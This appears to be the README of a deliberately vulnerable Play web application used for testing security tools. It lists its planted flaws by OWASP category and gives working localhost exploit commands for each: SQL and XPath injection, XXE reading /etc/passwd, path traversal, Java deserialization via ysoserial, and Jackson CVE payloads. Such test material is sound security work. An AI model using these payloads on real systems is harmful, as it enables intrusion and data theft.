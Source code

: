 # Package

```

$ sbt stage
$ file ./target/helloshiftleftplay-0.0.0-SNAPSHOT.jar

```

# Run

```

$ sbt run

```

# Http routes


See routes at [config/routes](config/routes).

Use `localhost` as host name in the URLs

To interact with the endpoints use `curl` (or any other tool)

+ GET /account
+ GET /createCustomer
+ POST /account `curl localhost:8082/account -X POST -H "Content-Type: application/json" --data '{ "accountNumber": 1337, "routingNumber": 1222 }'`
+ GET /customers 
+ GET /customersXML


# Package standalone (not officially supported by Play)

```

$ sbt assembly
$ java -Dplay.server.http.port="8082" -Dplay.server.http.address="127.0.0.1" -jar ./target/HelloshiftleftPlay-assembly-0.0.0-SNAPSHOT.jar

```

# Vulnerability coverage table
The following table shows vulns category implemented in HSL grouped according to OWASP standards.

| OWASP category              | Vuln description                                  |
| ----------------------------|-------------------------------------------------- |
| A1-Injection                | Sql Injection                                     |
| A2-Broken Auth              | missing HttpOnly Cookie                           |
| A3-Sensitive Data Exposure  | Weak crypto, clear text storage of sensitive data |
| A4-XXE                      | XML XXE attack                                    |
| A5-Broken Access Control    | Path traversal                                    |
| A6-Sec misconfiguration     | not present yet                                   |
| A7-XSS                      | reflected XSS attack                              |
| A8-Insecure deserialization | Java deserialization attacks                      |
| A9-Known Vulnerabilities    | we use a vulnerable version of jackson            |

# A1 SQL Injection

There are two SQL injection vulns, the first one in `getRawCustomer` and the second in `getRawCustomerByName`.
To exploit it you can interact with the endpoint in this way:

Normal behavior: ```curl "http://localhost:8082/rawcustomersbyname/Joe"```

Exploit: ```curl "http://localhost:8082/rawcustomersbyname/Joe%20'%20or%20'1'='1"```

# A2 missing HttpOnly cookie flag

The endpoint `/admin/login` reachable via POST request, does not set the cookie as HttpOnly.

# A4 XXE

The endpoint `/customersXML` suffers from an XXE vulnerabily.

```
curl  \
  --header "Content-type: application/xml" \
  --request GET \
  --data '<name>Guillaume</name>' \
  http://localhost:8082/customersXML
```

To exploit the XXE modify the payload above with the malicious one below:

```
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/passwd"> ]>
<userInfo>
 <firstName>John</firstName>
 <name>&ent;</name>
</userInfo>
```
Then you can use the following `curl` command to trigger the vulnerability:
```
curl -i -s -k  -X $'GET' \
    -H $'Host: localhost:8082' -H $'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' -H $'Accept-Language: en-GB,en;q=0.5' -H $'Accept-Encoding: gzip;q=0,deflate,sdch' -H $'Content-type: application/xml' -H $'Cookie:' -H $'Connection: close' -H $'Upgrade-Insecure-Requests: 1' -H $'Content-Length: 168' \
    --data-binary $'<!--?xml version=\"1.0\" ?-->\x0d\x0a<!DOCTYPE replace [<!ENTITY ent SYSTEM \"file:///etc/passwd\"> ]>\x0d\x0a<userInfo>\x0d\x0a <firstName>John</firstName>\x0d\x0a <name>&ent;</name>\x0d\x0a</userInfo>' \
    $'http://localhost:8082/customersXML'
```


As result, the output will contain the passwd file.

# A5 directory traversal

`saveSettings` contains a arbitrary file write vulnerability. The file relative path is extracted from the attacker controllable cookies.
To exploit the vuln use the `filewriteexploit.py` script, as shown below:

```
python dirtraversalexploit.py http://localhost:8082/saveSettings ../../../../../../../tmp/pwn asd
```
The above script will send the payload to the url specified as first argument, the relative path that will be used for the 
directory traversal is passed as second argument.

# A7 XSS

There is a reflected XSS in `/consumers/`. To exploit it visit the `/createConsumer` page and specify any malicious payload in the form.

# A8 Java deserialization 

`/unmarsh` retrives the `lol` parameter from the received POST request, decode64 its values and finally calls `readObject`.
To create the payload run `DoSerializeRCE` and then use its output to build the POST query as following:

```
curl localhost:8082/unmarsh  -X POST --data-urlencode "lol=rO0ABXNyABNEb1NlcmlhbGl6ZVJDRSRFdmlsx/E6K8+e2zIDAAB4cHg="
``` 
```
curl localhost:8082/unmarsh -X POST --data-urlencode "lol=`cat commons5.b64`"
```

```
java -jar target/ysoserial-0.0.6-SNAPSHOT-all.jar CommonsCollections5 /usr/bin/xcalc > commons5.bin
base64 commons5.bin | tr -d '\040\011\012\015'> commons5.b64
```


# A9 Jackson

The route `/bean1599` accepts POST operations and deserializes the received body data via Jackson. 
The file `exploit.json` contains the payload for CVE-2017-17485. 
Instead, the file `exploitold.json` provides the payload for CVE-2017-7525.

To run the exploit, first run the server with `sbt run` then type following commands:

```
export payload=`cat exploit.json`
curl localhost:8082/bean1599 -X POST -H "Content-Type: application/json" -d "$payload"
``` 

+ https://adamcaudill.com/2017/10/04/exploiting-jackson-rce-cve-2017-7525/
+ https://github.com/irsl/jackson-rce-via-spel




# XPath injection

After starting the service, it is possible to bypass the credential check with this URL: http://localhost:8082/checkAccount/admin/x'%20or%20'1'='1 . This results in the following xpath query: `//user[username/text()='admin' and password/text()='x' or '1'='1']` and the message `Hello admin`.

If you provide wrong credentials the handler returns `Error with your credentials!`. Syntax errors as http://localhost:8082/checkAccount/admin/x' result in the error message `A server error occurred: javax.xml.xpath.XPathExpressionException: javax.xml.transform.TransformerException: misquoted literal... expected single quote!` 


